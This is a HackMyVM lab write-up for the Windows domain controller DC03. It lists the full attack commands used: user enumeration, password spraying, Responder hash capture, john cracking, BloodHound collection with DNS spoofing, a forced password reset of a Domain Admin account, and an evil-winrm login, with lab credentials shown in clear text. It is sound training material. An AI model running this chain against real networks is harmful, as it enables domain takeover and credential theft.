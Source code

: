 ```yaml
---
date: 2024-11-23
categories: [Windows, Medium, AD]
---
```


![dc03](https://github.com/user-attachments/assets/b242b6e1-5628-4c81-96fb-8816303b908e)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [josemlwdf](https://hackmyvm.eu/profile/?user=josemlwdf)         | [HackMyVm](https://hackmyvm.eu)     | Medium           | Windows   |

---






- I start with a scan of the open ports.
    
    ```
    nmap -p- --open --min-rate 5000 -sS -Pn 10.0.2.7 -oG scan
    ```
    
    ![Pasted image 20241118165859](https://github.com/user-attachments/assets/f8053767-5265-47c7-b24d-6b9d4f7e6945)
    
- I continue with a scan of the versions and technologies that are running on the open ports that we have found.
    
    ```
    nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49680,49722 -sCV -Pn 10.0.2.7 -oN ports
    ```

	![Pasted image 20241118170111](https://github.com/user-attachments/assets/5870019e-7152-410e-97ce-3de98eecb858)

- Using kerbrute I search for valid users in the system.
	
	```python
	/opt/kerbrute_linux_386 userenum --dc 10.0.2.7 -d SOUPEDECODE.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
	```
	
  ![Pasted image 20241118171210](https://github.com/user-attachments/assets/918b9287-d8c7-4316-aa58-20e3e301a456)

- I check if with the found users I can access as password any of the users but I don't get anything.
	
	```python
	netexec smb -u users_kerbrute -p users_kerbrute --continue-on-success  10.0.2.7 
	netexec smb -u users_kerbrute -p users_kerbrute --continue-on-success --no-brute 10.0.2.7 
	netexec winrm -u users_kerbrute -p users_kerbrute --continue-on-success  10.0.2.7 
	netexec winrm -u users_kerbrute -p users_kerbrute --continue-on-success --no-brute 10.0.2.7 
	```

- After trying different things I listen to answer to sniff the traffic.
	
	```python
	responder -I eth0  -w -d
	```

  ![Pasted image 20241118220154](https://github.com/user-attachments/assets/1980ee68-3acf-4c56-b7cf-4f3c8b5e49e7)


- I find a NTLMv2 hash that when I try to break with john I get the password of the user xkate578 in clear text.
	
	```python
	john --wordlist=/usr/share/wordlists/rockyou.txt hashNTLMv2 
	```
	
  ![Pasted image 20241118220331](https://github.com/user-attachments/assets/32edbaa6-8c69-48df-b5d2-3f59e3af0006)


- I validate with these credentials the folders I have access to via smb and IPC$ and share are the most important ones.
	
	![Pasted image 20241118220813](https://github.com/user-attachments/assets/ce24bac1-ad91-4721-a083-bdaf9cd43c88)


- Thanks to having read permissions on IPC$ I am able to enumerate the system. From the information obtained, my user and the user fbeth103 stand out because of the groups to which they belong.
	
	```python
	ldapdomaindump -u 'SOUPEDECODE.LOCAL\xkate578' -p jesuschrist 10.0.2.7
	```
	
	![Pasted image 20241118221126](https://github.com/user-attachments/assets/37e1e105-d823-472f-9c4b-622a310d1f29)

	
	![Pasted image 20241118221515](https://github.com/user-attachments/assets/e704bfdf-fc63-4c94-a5f9-b09ee6be8255)


- Moving on now to the share folder, I list its contents and I manage to read the first flag
	
	```python
	smbclient -U "SOUPEDECODE.LOCAL/xkate578%jesuschrist" //10.0.2.7/share
	```
	
  ![Pasted image 20241118221845](https://github.com/user-attachments/assets/44e2593a-f844-4211-ba7d-220a885cebfd)


- I collect info with bloodhound-python to get another view of how the system is doing. At first it gives me a time failure and then another one with the dns server. To fix this second one I spoof the dns server on my machine with dnschef.

	```python
	dnschef --fakeip 10.0.2.7 
	ntpdate -u 10.0.2.7  ; bloodhound-python -u 'xkate578' -p 'jesuschrist' -ns 127.0.0.1 -d soupedecode.local -dc dc01.soupedecode.local --zip 
	```

- In this way I am able to extract the information and by deploying neo4j and bloodhound I am able to see graphically the relationships between users and groups.
	
	![Pasted image 20241122174803](https://github.com/user-attachments/assets/e468b93b-d530-4737-b9bf-b9e0b6e6ee04)


- It does not suggest to me any way to make a lateral move or escalate privileges. I look for information about the group that user xkate578 belongs to, which is the one I have his credentials for, and I see that I can change the password to users. I try to change it to user fbeth103.
	
	```python
	impacket-changepasswd SOUPEDECODE.LOCAL/fbeth103@10.0.2.8  -altuser xkate578 -altpass jesuschrist -newpass Pepe123. -reset 
	#It can also be done with rpcclient
	```
	
	![Pasted image 20241122183613](https://github.com/user-attachments/assets/b4317d0f-2ed5-47b8-ada7-63b0d1bf94cb)


- After changing the user's password and verifying that the new credentials are correct, I notice that this user is a member of “Operators” and member of “Domain Admins”. Thanks to this I can connect to the system and read the second flag.
	
	```python
	evil-winrm -i 10.0.2.8 -u fbeth103 -p Pepe123. 
	```

	![Pasted image 20241122183908](https://github.com/user-attachments/assets/ba7554e2-8f8e-4298-9723-67273c744b99)

	![Pasted image 20241122184136](https://github.com/user-attachments/assets/67f66348-1975-473c-8b89-87e148b3918d)
